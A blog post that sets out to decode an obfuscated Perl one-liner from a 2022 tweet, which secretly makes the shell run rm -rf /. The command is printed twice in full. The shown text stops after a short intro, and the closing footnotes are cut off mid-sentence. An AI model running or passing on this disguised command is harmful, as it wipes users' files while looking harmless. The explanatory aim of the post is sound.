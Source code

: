 +++
title = "Understanding the meme perl oneliner"
date = 2022-05-29
description = "an old perl joke resurfaced and I was curious on how it actually worked"
[taxonomies]
tags = ["perl"]
+++

Yesterday, I came across this tweet which was an anecdote about sexism in tech,
but which included a line of obfuscated code that our villain presumably
executed locally and caused them to "lose everything":

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Shot / Chaser <a href="https://t.co/m5cF3WZNnM">pic.twitter.com/m5cF3WZNnM</a></p>&mdash; 𝚐𝚒𝚗&amp;𝚝𝚘𝚗𝚒𝚌 (@SapioSiren) <a href="https://twitter.com/SapioSiren/status/1530363498689069058?ref_src=twsrc%5Etfw">May 28, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

Me and other nerds who saw this tweet, though, were drawn to the obfuscated code
snippet, and were puzzled as to what it actually meant:


> echo "hello world" | perl -e '$??s:;s:s;;$?::s;;=]=>^-{<-|}<&|\`{;;y; -/:-@[-\`{-};\`-{/" -;;s;;$\_;see'

The short, but boring, explanation is that it tells your shell to execute
`rm -rf /`, a command that, when executed by a sufficiently privileged user,
deletes every file in your system[^gnu-rm].

Some of the replies to the tweet also linked to a more complete explanation at
[https://www.dlitz.net/stuff/malicious-perl-sig/](https://www.dlitz.net/stuff/malicious-perl-sig/),
but even that explanation was insufficient to me, and I wanted to be able to
give a satisfactory explanation in a Discord I was in, so I cracked open the
`perldoc` pages and started reading things. This post is basically a nicer
version of the explanation.

# High level overview

Here is the snippet, once again ~~but in a code block~~:

```sh
> echo "hello world" | perl -e '$??s:;s:s;;$?::s;;=]=>^-{<-|}<&|`{;;y; -/:-@[-`{-};`-{/" -;;s;;$_;see'
```

This is a line in bourne shell (the standard shell on, uh, non-Windows systems)
that will produce the innocent sequence of characters `hello world` and feed it
into an invocation of `perl`, with a oneline script provided to it. The script
proceeds to (attempt to) delete all files in your computer. How did this happen?

## Prior knowledge

[Perl](https://www.perl.org/) is a language that was designed as an amalgamation
of various languages and mini-languages that were routinely used by unix system
administrators like `sh` (bourne shell), `awk` and `sed`; this includes a lot of
their idiosyncracies. It is very optimized for handling plain text, and if what
you're doing fits easily into its idiosyncrasies, perl allows you to be very
terse indeed, which helped build its infamy as an obfuscated language, and some
of those are important for understanding the code:


[^gnu-rm]: Or tries to. The GNU coreutils implementation, at least, will detect
[^perl-separator]: `/` is still the most popular separator, followed by `@` when
[^tr-hyphen]: To include a literal `-` in the translation, it needs to either be
[^ebcdic]: Perl, amazingly, _has_ [EBCDIC](https://en.wikipedia.org/wiki/EBCDIC)
[^short-tr]: If the replacement section has fewer characters than the input, the
[^tr-order]: This is certainly not how the translation is actually done in code;
[^s-flag]: The "single line" flag, it's used to ignore newlines inside the
[^why-ee]: And why is `ee` a single flag anyway? There's actually a `e` already,